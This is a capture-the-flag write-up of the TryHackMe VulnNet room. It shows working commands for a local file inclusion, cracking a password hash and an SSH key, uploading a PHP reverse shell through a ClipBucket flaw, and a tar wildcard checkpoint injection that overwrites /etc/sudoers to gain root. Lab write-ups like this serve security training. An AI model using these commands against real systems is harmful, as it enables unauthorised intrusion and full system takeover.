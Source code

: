 ```yaml
---
layout: post
title: THM Vulnnet WriteUp
date: 2025-09-11 01:50 -0400
categories: ["Writeup"]
tags: ["thm","lfi","web"]
---
```


In this occasion we will be solving TryHackMe's room
URL: [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

### RECON

**ports 22,80**

```bash
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet
|_http-favicon: Unknown favicon MD5: 8B7969B10EDA5D739468F4D3F2296496
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
Apache version: Apache/2.4.29 (Ubuntu)"]
SSH: "SSH-2.0-OpenSSH_7.6p1
Linux: Ubuntu
```

**subdomain enumeration**
```
ffuf -u http://vulnnet.thm/ -w ~/hdd/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host:FUZZ.vulnnet.thm" -ac
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250909.png)

Accessing the site we receive a basic Apache authentication login page

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-1.png)

Analyzing the js files we can find a little hint a possible referer, so we can try file inclusion vulnerabilities.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-2.png)

We can see that the file /etc/passwd is being reflected, so we can go further this.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-3.png)

Using intruder we will choose this Seclists Fuzzing LFI wordlist to find all the possible files with sensitive information inside the box.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-6.png)

We got a hit here, the file .htpasswd contains the credentials for accessing the protected broadcast.vulnnet.thm resource.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-4.png)

So we get an username and a encrypted hash, we can use hashcat to crack it as follows.

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

```
hashcat -m 1600 -a 0 hash.txt ~/hdd/wordlists/rockyou.txt
```

Crack .htpasswd

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910.png)

The plaintext password would be the following

```
developers:9972761drmfsls
```

The we will try to login the secondary website, some inspection and we now its a Clipbucket instance.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-7.png)

## LOW LEVEL USER

In order to exploit an access the host machine we can exploit a known vulnerability of this deployment.

https://sec-consult.com/vulnerability-lab/advisory/os-command-injection-arbitrary-file-upload-sql-injection-in-clipbucket/

```bash
#curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/beats_uploader.php"
```

Because the instance is behind an authentication window, we should also provide the basic auth header, being a Base64 representation of the username:password.

Also we can use a php-reverse-sell.php as this file will be granting us a reverse shell in the box.

```
curl -X POST -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw==" -F "file=@/home/c/hdd/scripts/WebShell/Php/php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

**Response**

This response indicates that the file has been correctly uploaded, we should take note of the filename and the path.

```bash
creating file{"success":"yes","file_name":"1757540582b1fa96","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"} %
```


**Triggering the reverse shell**

Just make a simple curl request replacing the placeholders with the data of the already uploaded

```
curl http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/175755542330361a.php -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw=="
```

I won't discus in detail how to upgrade a shell so let's go directly to post exploitation.


## Privilege Escalation

Using pspy we can see the tools or crons that are constantly being executed in the host machine, I Found this script but we cannot write or do anything without low level user permissions, but it will be useful later.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250910-10.png)

The script basically makes a backup of an entire folder using tar command utility

```bash
#!/bin/bash
# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

## LOOKING FOR USER.TXT

Looking around in the backup directory we can see this interesting file.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-3.png)

Now we proceed to copy un unzip found ssh private key, however its encrypted so we have to crack it first.

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-4.png)

For this purpose we will be using john jumbo suite, and specifically the following script to get a crackable hash representation of the password.

```
python3 ssh2john.py /tmp/id_rsa > /tmp/id_rsa.txt
```

Now that we have a working hash, we proceed to crack it with john.

```bash
/run/john --wordlist=/home/c/hdd/wordlists/rockyou.txt /tmp/id_rsa.txt
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911.png)

We get the following password

```
id_rsa:10.201.86.192
```

Then we need to use openssl to decrypt the key as follows.

```bash
openssl rsa -in id_rsa -out unencrypted_id_rsa
chmod 0400 unencrypted_id_rsa
```

Login as user 'server-management' only have two users that are able to login

**Upgrade to rootl**

```bash
# 1. Create files in the current directory called  
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'  
  
echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh privesc.sh'  
  
# 2. Create a privesc.sh bash script, that allows for privilege escalation  
#malicous.sh:  
echo 'server-management ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

After the execution of the cron task just type

```
sudo su
```

![](/assets/img/posts/2025-09-11-thm-vulnnet-writeup/vulnnet-20250911-2.png)




---

REF: https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
